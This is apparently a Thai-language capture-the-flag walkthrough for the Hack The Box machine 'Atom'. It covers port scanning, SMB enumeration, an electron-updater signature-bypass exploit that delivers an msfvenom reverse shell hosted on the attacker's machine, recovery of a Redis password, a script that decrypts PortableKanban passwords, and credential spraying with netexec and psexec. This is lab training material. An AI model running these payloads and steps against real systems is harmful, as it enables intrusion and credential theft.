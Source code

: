 ## SCAN to Target 

```bash
./scan.sh 10.10.10.237   
[*] Running rustscan...
[*] Running nmap on ports: 80,135,443,445,5985,6379
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-13 20:19 +07
Nmap scan report for 10.10.10.237 (10.10.10.237)
Host is up (0.034s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc        Microsoft Windows RPC
443/tcp  open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-title: Heed Solutions
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6379/tcp open  redis        Redis key-value store
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-13T12:59:02
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h59m27s, deviation: 4h02m32s, median: -20m34s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: ATOM
|   NetBIOS computer name: ATOM\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-13T05:59:06-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.99 seconds

```

## Enum HTTP on Port 80 

![](./IMG/001.png)

ด้านล่างจะพบว่ามีการใช้งานโดเมน MrR3boot@atom.htb จากนั้นให้เพิ่มข้อมูลลงไปในไฟล์ Hosts 

```bash
vim /etc/hosts
10.10.10.237 atom.htb 
```

จากนั้นหากตรวจสอบหน้า Web จะพบว่าเราสามารถ download โปรแกรมที่ชื่อว่า Heed ของ Windows ได้ และหากเข้าไปจะพบว่ามี Dictionary Listing ที่สามารถ Download ได้อยู่
![](./IMG/002.png)
## Enum SMB 

```bash
smbclient -N -L //10.10.10.237/ -U 'anonymous'
smbclient -N  //10.10.10.237/Software_Updates  -U 'anonymous' 

smb> ls 
```


![](./IMG/003.png)


## Host Research 
จากเอกสารเราจะพบข้อมูลสำคัญในการใช้งานโปรแกรม Head ซึ่งทำให้เราทราบว่า
1. โปรแกรมนี้ถูกสร้างโดย electron-builder
2. เราสามารถวางบางสิ่งบางอย่างลงในโฟลเดอร์ Client อะไรก็ได้ 



![](./IMG/005.png)
![](./IMG/004.png)

จากข้อมูลข้างต้น เราสามารถนำไปตรวจสอบข้อมูลของข่องโหว่ของโปรแกรมดังกล่าว 

![](./IMG/006.png)

จะพบว่ามี Blog หนึ่งเขียนไว้เกี่ยวกับช่องโหว่ RCE 
https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html


## Host Exploit 
จากนั้นดำเนินการสร้าง Shell ด้วย msfvenom แต่จุดสำคัญของช่องโหว่คือ ชื่อไฟล์จะต้องมี ==Singleqoute== อยู่ด้วย

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$(ip a show tun0 | grep 'inet ' | awk '{print $2}' | cut -d'/' -f1) LPORT=443 -f exe -o "r'everse.exe"


shasum -a 512 "r'everse.exe" | cut -d " " -f1 | xxd -r -p | base64 -w 0 

# ผลลัพธ์ ที่ได้  W+XIr+eDHZZJ/VyASn5OY2C3KVGCJIkPOfV5nDET9DqRG1yIXK/3MfLsMVCIhJ6c0TlBCjAhkWM8+xBi5ThoUA==   

vim latest.yml
version: 1.2.3
path:  http://10.10.14.9:8000/r'everse.exe
sha512: W+XIr+eDHZZJ/VyASn5OY2C3KVGCJIkPOfV5nDET9DqRG1yIXK/3MfLsMVCIhJ6c0TlBCjAhkWM8+xBi5ThoUA==
```

จากนั้น upload ไฟล์ latest.yml ด้วย smb จากนั้นรอ reverse shell กลับมาก็จะได้

![](./IMG/007.png)


--- 

# Priv Escalation
## Redis Enum 
![](./IMG/008.png)

เมื่อเข้าไปที่ Path ไฟล์ Config ของ Redis จะพบว่ามีการใช้งานคำสั่ง `requirepass kidvscat_yes_kidvscat` ซึ่งใน Redis หมายถึงการตั้งรหัสผ่านสำหรับการเชื่อมต่อกับ Redis server ด้วยการใช้คำสั่ง `requirepass` เพื่อกำหนดรหัสผ่านที่ต้องใช้ก่อนที่จะสามารถเข้าถึง Redis instance ได้
ในกรณีนี้:
- `requirepass` เป็นคำสั่งใน Redis ที่ใช้ในการตั้งรหัสผ่านเพื่อบังคับให้ผู้ใช้ทุกคนต้องใช้รหัสผ่านที่ถูกต้องก่อนที่จะทำการคิวรีหรือปฏิบัติการต่างๆ บน Redis server
- `kidvscat_yes_kidvscat` คือรหัสผ่านที่ถูกตั้งขึ้นในกรณีนี้
    
ตัวอย่างการใช้งาน:

เมื่อคุณตั้งค่า `requirepass kidvscat_yes_kidvscat` ในไฟล์ `redis.conf` หรือใช้คำสั่งใน Redis shell จะต้องใช้รหัสผ่านนี้ในการเชื่อมต่อ Redis ตัวอย่างเช่น:

1. การตั้งรหัสผ่านใน `redis.conf`:
    ```
    requirepass kidvscat_yes_kidvscat
    ```
    
2. การเชื่อมต่อ Redis ด้วยรหัสผ่าน:

```powershell
    redis-cli 
    AUTH kidvscat_yes_kidvscat
```
    

หากสำเร็จจะขึ้น OK  
![](./IMG/009.png)

จากนั้นทดสอบรันคำสั่งใน Redis 
```sql
INFO

KEYS * 
pk:ids:User
pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff
pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
pk:ids:MetaDataClass


GET pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0



GET pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
{"Id":"e8e29158d70d44b1a1ba4949d52790a0","Name":"Administrator","Initials":"","Email":"","EncryptedPassword":"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi","Role":"Admin","Inactive":false,"TimeStamp":637530169606440253}

```

จากด้านบนจะพบว่าเราได้ข้อมูลของ User administrator ที่ Password ถูกเข้ารหัสไว้ ซึ่งไม่สามารถนำไปใช้ได้ 

--- 

หากรัน WinPeas จะพบไฟล์ที่น่าสนใจอยู่ภายใต้ Download 


ซึ่งหากสำรวจข้อมูลภายใต้ Download เราจะพบว่าผุ้ใช้งานดังกล่าวมีการใช้งาน PortableKanban  โดย **PortableKanban** คือเครื่องมือที่ใช้สำหรับการจัดการงานและโครงการในรูปแบบของกระดาน Kanban ซึ่งถูกออกแบบให้สามารถพกพาได้หรือใช้ได้ทุกที่ ด้วยคุณสมบัติที่สามารถปรับเปลี่ยนและติดตามสถานะของงานในลักษณะภาพรวมที่ชัดเจน โดยทั่วไปจะมีการแบ่งงานออกเป็นคอลัมน์ต่าง ๆ เช่น "To Do", "In Progress", และ "Done" เพื่อให้ทีมงานหรือบุคคลที่ใช้สามารถติดตามความคืบหน้าของงานได้ง่ายและสะดวก

## Crack Password form PortableKaban

![](./IMG/010.png)


```python
import json  
import base64  
from des import * #python3 -m pip install des  
  
try:  
    hash = str(input("Enter the Hash : "))  
    hash = base64.b64decode(hash.encode('utf-8'))  
    key = DesKey(b"7ly6UznJ")  
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))  
except:  
    print("Wrong Hash")
```

```python
python3 -m venv venv
pip3 install des
python3 decrypt.py 
```


![](./IMG/011.png)

หรือเราสามารถใช้ Cyberchef ได้ ดังต่อไปนี้ ซึ่งได้ผลลัพธ์เหมือนกัน 
![](./IMG/014.png)

--- 
## Cred.txt 
administrator:kidvscat_admin_@123

---

จากข้อมูลที่พบเราสามารถทดสอบได้ว่าสามารถโจมตีไปทีโปรโตคอลอะไรได้บ้าง 
```bash
for service in wmi winrm smb mssql rdp ssh ldap ftp vnc; do netexec $service 10.10.10.237 -u 'administrator' -p 'kidvscat_admin_@123'; done 
```

![](./IMG/012.png)

จากผลเราจะทดสอบโจมตีด้วย impacket-psexec 

![](./IMG/013.png)

--- 
# PWN !